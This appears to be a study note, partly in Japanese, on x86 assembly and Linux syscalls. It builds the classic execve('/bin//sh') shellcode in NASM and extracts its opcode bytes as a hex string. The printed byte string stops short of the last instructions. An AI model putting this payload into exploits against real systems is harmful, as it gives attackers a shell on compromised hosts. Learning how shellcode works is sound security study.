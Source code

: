 # nasm
- https://www.nasm.us/doc/nasmdo10.html
# x86 アセンブリ言語の基礎
- https://en.wikipedia.org/wiki/X86_assembly_language
- https://en.wikibooks.org/wiki/X86_Assembly/Interfacing_with_Linux
- [呼出規約 - Wikipedia](https://ja.wikipedia.org/wiki/%E5%91%BC%E5%87%BA%E8%A6%8F%E7%B4%84#cdecl)
# syscall
```bash
$ locate unistd_32.h
$ grep exit /usr/include/x86_64-linux-gnu/asm/unistd_32.h
$ man 2 exit
$ man syscall
```
# nasm
```asm
; $ nasm -f elf32 shell.nasm
; $ ld -m elf_i386 shell.o
global  _start
_start:
        xor eax, eax
        xor ecx, ecx
        xor edx, edx
        mov al, 0xb
        push ecx ; "\0\0\0\0"
        push 0x68732f6e ; "n/sh"
        push 0x69622f2f ; "//bi"
        mov ebx, esp
        int 0x80
```

```bash
$ readelf -x .text a.out | grep -Eow '[0-9a-f]{8}' | tr -d '\n'
31c031c931d2b00b51686e2f7368682f2f626989
```
